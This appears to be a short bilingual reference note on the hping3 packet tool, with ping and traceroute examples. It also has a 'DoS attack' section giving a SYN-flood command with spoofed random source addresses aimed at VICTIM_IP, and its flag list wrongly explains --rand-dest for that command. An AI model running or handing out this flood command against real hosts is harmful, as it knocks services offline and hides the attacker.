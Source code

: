 # hping3
## 基本概念
hping3 is a network tool able to send custom TCP/IP packets and to display target replies like ping program does with ICMP replies. 
hping3 handle fragmentation, arbitrary packets body and size and can be used in order to transfer files encapsulated under supported protocols. 
Using hping3 you are able to perform at least the following stuff:
* Test firewall rules
* Advanced port scanning
* Test net performance using different protocols, packet size, TOS (type of service) and fragmentation.
* Path MTU discovery
* Transferring files between even really fascist firewall rules.
* Traceroute-like under different protocols.
* Firewalk-like usage.
* Remote OS fingerprinting.
* TCP/IP stack auditing.
* A lot of others

## 示例
### testing using icmp
模拟ping的操作行为
```sh
# hping3 -1 -c 4 baidu.com
HPING baidu.com (enp0s3 220.181.57.216): icmp mode set, 28 headers + 0 data bytes
len=46 ip=220.181.57.216 ttl=53 id=22131 icmp_seq=0 rtt=40.5 ms
len=46 ip=220.181.57.216 ttl=53 id=22132 icmp_seq=1 rtt=32.0 ms
len=46 ip=220.181.57.216 ttl=53 id=22133 icmp_seq=2 rtt=31.9 ms
len=46 ip=220.181.57.216 ttl=53 id=22134 icmp_seq=3 rtt=37.8 ms

--- baidu.com hping statistic ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max = 31.9/35.6/40.5 ms

```
### traceroute using icmp
模拟traceroute
```sh
# hping3 -nn  --traceroute -V -1 baidu.com
```
### dos攻击
```sh
hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 --flood --rand-source VICTIM_IP
```
* --flood: sent packets as fast as possible. Don't show replies.
* --rand-dest: random destionation address mode. see the man.
* -V <-- Verbose
* -c --count: packet count
* -d --data: data size
* -S --syn: set SYN flag
* -w --win: winsize (default 64)
* -p --destport [+][+]<port> destination port(default 0) ctrl+z inc/dec
* -s --baseport: base source port (default random)
